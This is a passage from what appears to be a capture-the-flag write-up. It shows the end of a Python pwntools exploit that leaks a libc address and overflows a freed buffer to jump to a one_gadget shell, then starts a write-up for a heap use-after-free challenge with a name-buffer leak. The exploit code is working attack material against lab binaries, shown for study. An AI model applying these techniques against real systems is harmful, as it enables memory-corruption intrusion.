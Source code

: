 ```python
	if descrip:
		sh.recvuntil("Enter your description: ")
		sh.send(descrip)
	sh.recvuntil("3. I think I deserve a promotion\n")

def delete(answer):
	sh.send("3\x00\x00\x00")
	sh.send(answer)
	sh.recvuntil("3. I think I deserve a promotion\n")

sh.recvuntil("Beginner's Luck : ")
leak = sh.recvuntil("\n")
libc_addr = u64(leak[:len(leak)-1] + "\x00\x00") - e.symbols["puts"]
print hex(libc_addr)
sh.recvuntil("3. I think I deserve a promotion\n")

create("123", 0x7F)
delete("111")
create(None, -1)
sh.send("3\x00\x00\x00" + (cyclic(56) + p64(libc_addr + ONE_GADGET_OFF)).ljust(0x7F, "\x00"))
sh.interactive()
```

## 954 Pwn / A Heap Interface ##

**Description**

> This heap interface is really cool. We ask our clients to submit PoW to use this.
> 
> UPDATE : We removed PoW, please don't try to brute more than 4 bits.
> 
> `nc 185.168.131.133 6000`

**Files provided**

 - [libc-2.24.so](files/libc-2.24.so)
 - [heap_interface](files/heap_interface)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The program is simple, typical UAF but without show, and house of roman that requires 12-bit bruteforce is not allowed.

The potential leak is here, 

```c
int printfname()
{
  return printf("Name: %s\n", name);
}
```

and the name is not null terminated. According to the memory layout, the buffer pointers are just after the name, so we can leak the address of heap directly.
